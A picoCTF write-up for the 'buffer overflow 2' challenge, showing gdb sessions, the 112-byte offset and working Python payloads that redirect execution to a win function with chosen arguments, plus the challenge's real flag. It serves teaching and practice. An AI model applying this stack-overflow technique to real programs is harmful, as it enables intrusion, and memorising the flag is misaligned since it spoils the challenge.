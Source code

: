 ```yaml
---
layout: writeup
title: 'Binary Exploitation 250: buffer overflow 2'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
---
```

**Challenge**  
 Alright, this time you'll need to control some arguments. Can you get
the flag from this program? You can find it in
/problems/buffer-overflow-2\_2\_46efeb3c5734b3787811f1d377efbefa on the
shell server. [Source.](./writeupfiles/vuln-buff-overflow-2.c)

**Solution**  
The hint suggests

> Try using gdb to print out the stack once you write to it!

Which is useful. First attempted to find out what was necessary to
overwrite the return pointer and segfault, '107 \* a' was just before
there. Opened up gdb:

Looking at the dump of vuln, it is suggested to me that we should want
to control ebp (to be `0xdeadbeefdeadcode`) + the return (to be
`0x080485cb`)

    080485cb <win>:
     ...
     804861d:       81 7d 08 ef be ad de    cmpl   $0xdeadbeef,0x8(%ebp)
     8048624:       75 1a                   jne    8048640 <win+0x75>
     8048626:       81 7d 0c de c0 ad de    cmpl   $0xdeadc0de,0xc(%ebp)
     804862d:       75 14                   jne    8048643 <win+0x78>

After much experimentation remembered how metasploit does it, by
inserting the alphabet and mapping that back to points that are
interesting to control.

We'll debug this locally to start with for convenience. Touch a
`flag.txt` and fill with a fake 'flag' that you'll 'discover'.

    $ python -c "print('a' * 112 + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ')" > tmp
    $ echo "picoCTF{fake_flag}" > flag.txt
    $ gdb writeupfiles/vuln-buff-overflow-2
    ...
    (gdb) break vuln
    Breakpoint 1 at 0x804864c
    (gdb) disas
    Dump of assembler code for function vuln:
       0x08048646 <+0>:     push   ebp
       0x08048647 <+1>:     mov    ebp,esp
       0x08048649 <+3>:     sub    esp,0x78
    => 0x0804864c <+6>:     sub    esp,0xc
       0x0804864f <+9>:     lea    eax,[ebp-0x6c]
       0x08048652 <+12>:    push   eax
       0x08048653 <+13>:    call   0x8048430 <gets@plt>
       0x08048658 <+18>:    add    esp,0x10
       0x0804865b <+21>:    sub    esp,0xc
       0x0804865e <+24>:    lea    eax,[ebp-0x6c]
       0x08048661 <+27>:    push   eax
       0x08048662 <+28>:    call   0x8048460 <puts@plt>
       0x08048667 <+33>:    add    esp,0x10
       0x0804866a <+36>:    nop
       0x0804866b <+37>:    leave
       0x0804866c <+38>:    ret
    End of assembler dump.
    (gdb) break *0x0804866c
    Haltepunkt 2 at 0x804866c
    (gdb) continue
    Continuing.
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaABCDEFGHIJKLMNOPQRSTUVWXYZ
    
    Breakpoint 2, 0x0804866c in vuln ()
    (gdb) disas
    Dump of assembler code for function vuln:
       0x08048646 <+0>:     push   ebp
       0x08048647 <+1>:     mov    ebp,esp
       0x08048649 <+3>:     sub    esp,0x78
       0x0804864c <+6>:     sub    esp,0xc
       0x0804864f <+9>:     lea    eax,[ebp-0x6c]
       0x08048652 <+12>:    push   eax
       0x08048653 <+13>:    call   0x8048430 <gets@plt>
       0x08048658 <+18>:    add    esp,0x10
       0x0804865b <+21>:    sub    esp,0xc
       0x0804865e <+24>:    lea    eax,[ebp-0x6c]
       0x08048661 <+27>:    push   eax
       0x08048662 <+28>:    call   0x8048460 <puts@plt>
       0x08048667 <+33>:    add    esp,0x10
       0x0804866a <+36>:    nop
       0x0804866b <+37>:    leave
    => 0x0804866c <+38>:    ret
    End of assembler dump.
    (gdb) p/x $esp
    $1 = 0xffffcbdc
    (gdb) p/x *((int)$esp)
    $2 = 0x44434241

We'll return to whatever is in $esp, so we just need to overwrite ABCD
with the  
address we'd like to return to. We know we need to jump to `win`, we can
find  
the address via objdump or just running `disas win` in gdb and copying
the  
first byte.

    $ python -c "print('a' * 112 + '\xcb\x85\x04\x08' + 'EFGHIJKLMNOPQRSTUVWXYZ')" > tmp

This time we know we'll enter the `win` function so we can just break
there:

    (gdb) break win
    Haltepunkt 1 at 0x80485d1
    (gdb) run < tmp
    Starting program: writeupfiles/vuln-buff-overflow-2 < tmp
    Please enter your string:
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaEFGHIJKLMNOPQRSTUVWXYZ
    
    Breakpoint 1, 0x080485d1 in win ()
    (gdb) disas
    Dump of assembler code for function win:
       0x080485cb <+0>:     push   ebp
       0x080485cc <+1>:     mov    ebp,esp
       0x080485ce <+3>:     sub    esp,0x58
    => 0x080485d1 <+6>:     sub    esp,0x8
       0x080485d4 <+9>:     push   0x8048750
       0x080485d9 <+14>:    push   0x8048752
       0x080485de <+19>:    call   0x80484a0 <fopen@plt>
       0x080485e3 <+24>:    add    esp,0x10
       0x080485e6 <+27>:    mov    DWORD PTR [ebp-0xc],eax
       0x080485e9 <+30>:    cmp    DWORD PTR [ebp-0xc],0x0
       0x080485ed <+34>:    jne    0x8048609 <win+62>
       0x080485ef <+36>:    sub    esp,0xc
       0x080485f2 <+39>:    push   0x804875c
       0x080485f7 <+44>:    call   0x8048460 <puts@plt>
       0x080485fc <+49>:    add    esp,0x10
       0x080485ff <+52>:    sub    esp,0xc
       0x08048602 <+55>:    push   0x0
       0x08048604 <+57>:    call   0x8048470 <exit@plt>
       0x08048609 <+62>:    sub    esp,0x4
       0x0804860c <+65>:    push   DWORD PTR [ebp-0xc]
       0x0804860f <+68>:    push   0x40
       0x08048611 <+70>:    lea    eax,[ebp-0x4c]
       0x08048614 <+73>:    push   eax
       0x08048615 <+74>:    call   0x8048440 <fgets@plt>
       0x0804861a <+79>:    add    esp,0x10
       0x0804861d <+82>:    cmp    DWORD PTR [ebp+0x8],0xdeadbeef
       0x08048624 <+89>:    jne    0x8048640 <win+117>
       0x08048626 <+91>:    cmp    DWORD PTR [ebp+0xc],0xdeadc0de
       0x0804862d <+98>:    jne    0x8048643 <win+120>
       0x0804862f <+100>:   sub    esp,0xc
       0x08048632 <+103>:   lea    eax,[ebp-0x4c]
       0x08048635 <+106>:   push   eax
       0x08048636 <+107>:   call   0x8048420 <printf@plt>
       0x0804863b <+112>:   add    esp,0x10
       0x0804863e <+115>:   jmp    0x8048644 <win+121>
       0x08048640 <+117>:   nop
       0x08048641 <+118>:   jmp    0x8048644 <win+121>
       0x08048643 <+120>:   nop
       0x08048644 <+121>:   leave
       0x08048645 <+122>:   ret
    End of assembler dump.

Let's break right before the comparisons happen just in case ebp is
modified anywhere.

    (gdb) break *0x0804861a
    Haltepunkt 2 at 0x804861a
    (gdb) continue
    Continuing.
    
    Breakpoint 2, 0x0804861a in win ()

And looking into those we see:

    (gdb) p/x *((int)$ebp + 0x8)
    $1 = 0x4c4b4a49  # LKJI
    (gdb) p/x *((int)$ebp + 0xc)
    $2 = 0x504f4e4d  # PONM

So we'll just overwrite those now:

    $ python -c "print('a' * 112 + '\xcb\x85\x04\x08' + 'EFGH' + '\xef\xbe\xad\xde\xde\xc0\xad\xde')" | ./writeupfiles/vuln-buff-overflow-2
    Please enter your string:
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
    picoCTF{test flag}
    [1]    12928 done                              python -c  |
           12929 segmentation fault (core dumped)  ./writeupfiles/vuln-buff-overflow-2

So that works perfectly

    $ python -c "print('a' * 112 + '\xcb\x85\x04\x08' + 'EFGH' + '\xef\xbe\xad\xde\xde\xc0\xad\xde')" | ./vuln
    Please enter your string:
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
    picoCTF{addr3ss3s_ar3_3asy1b78b0d8}  Segmentation fault (core dumped)

Which is just what we wanted

